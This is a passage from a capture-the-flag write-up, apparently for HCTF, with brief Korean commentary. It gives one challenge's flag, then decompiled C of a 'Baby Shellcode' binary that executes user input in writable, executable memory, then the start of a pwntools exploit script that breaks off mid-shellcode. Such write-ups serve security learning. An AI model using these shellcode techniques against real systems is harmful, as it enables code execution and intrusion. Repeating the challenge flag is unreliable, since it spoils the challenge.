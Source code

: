 **FLAG : `HCTF{Rabin_Crypto_Algorithm_is_So_Beautiful_And_This_Problem_Requires_A_Really_Long_Flag_Length}`**

<br />

# Pwn

## Baby Shellcode

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t v3; // rdx
  char *v4; // rsi
  int i; // [rsp+10h] [rbp-60h]
  char *area; // [rsp+18h] [rbp-58h]
  char initialize[49]; // [rsp+20h] [rbp-50h]
  unsigned __int64 v9; // [rsp+58h] [rbp-18h]

  v9 = __readfsqword(0x28u);
  area = mmap(0LL, 0x1000uLL, 7, 0x22, 0xFFFFFFFF, 0LL);
  *initialize = 0x3148DB3148C03148LL;
  *&initialize[8] = 0x48F63148D23148C9LL;
  *&initialize[16] = 0xED3148E43148FF31LL;
  *&initialize[24] = 0x314DC9314DC0314DLL;
  *&initialize[32] = 0x4DE4314DDB314DD2LL;
  *&initialize[40] = 0xFF314DF6314DED31LL;
  initialize[48] = 0;
  v3 = strlen(initialize);
  memcpy(area, initialize, v3);
  v4 = &area[strlen(initialize)];
  read(0, v4, 1024uLL);
  for ( i = 0; i < strlen(initialize) + 1024; ++i )
  {
    if ( area[i] == 0xEBu )
    {
      puts("lol~");
      exit(0);
    }
  }
  (area)(initialize, v4);
  return 0;
}
```

shellcodeing 문제다.

mmap -> read -> execve

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./babyshellcode')
p = process('./babyshellcode')

# %rdi %rsi %rdx %r10 %r8 %r9
s = '''
mov rdi, 0x0
mov rsi, 0x1000
mov rdx, 0x7
mov r10, 0x22
mov r8, 0xFFFFFFFF
mov r9, 0x0
```